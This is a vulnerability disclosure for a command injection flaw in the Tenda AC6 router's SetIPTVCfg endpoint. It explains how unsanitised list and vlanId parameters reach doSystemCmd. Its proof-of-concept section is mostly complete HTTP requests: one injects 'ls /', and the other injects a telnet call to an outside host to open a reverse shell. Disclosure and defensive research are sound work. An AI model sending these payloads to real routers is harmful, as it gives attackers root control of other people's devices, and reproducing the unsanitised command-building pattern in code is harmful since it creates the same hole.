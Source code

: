 # Tenda AC6 Routers Command Injection in SetIPTVCfg

## Overview
Tenda AC6 Router is a consumer-grade wireless router supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: /goform/SetIPTVCfg
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

### PoC 2: Reverse shell
```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
